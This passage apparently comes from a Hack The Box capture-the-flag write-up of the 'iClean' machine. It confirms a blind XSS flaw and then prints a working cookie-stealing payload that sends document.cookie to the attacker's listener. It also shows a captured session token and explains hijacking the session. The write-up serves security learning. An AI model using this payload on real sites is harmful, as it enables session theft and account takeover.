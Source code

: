 Upon sending the request, within few seconds, we have a connection made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-10.png)

This verifies Blind XSS vulnerability. Let's try stealing cookies since we don't have any credentials for the login on hand.

### Cookie Stealing


We have already covered about this on [HTB-FormulaX](https://jadu101.github.io/Hackthebox%F0%9F%93%A6/Linux%F0%9F%90%A7/HTB-FormulaX).

Let's send the following payload through Burp Suite Intruder:

`<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-12.png)

After waiting for few seconds, Python Web Server captures cookie from other users on the system:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/iclean/image-11.png)

`10.10.11.12 - - [11/Jun/2024 23:01:00] "GET /?cookie=session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.ZmkK_w.PvBhMs9F8EtFoWQXDH62Th-70iM HTTP/1.1" 200 -`


Let's use Firefox's [Cookie-Editor](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) to modify our cookie value. 

After adding the extension, create a new cookie with the name of **sessions** and copy-paste in the value that was retrieved.

After that, we now have access to `/dashboard`:
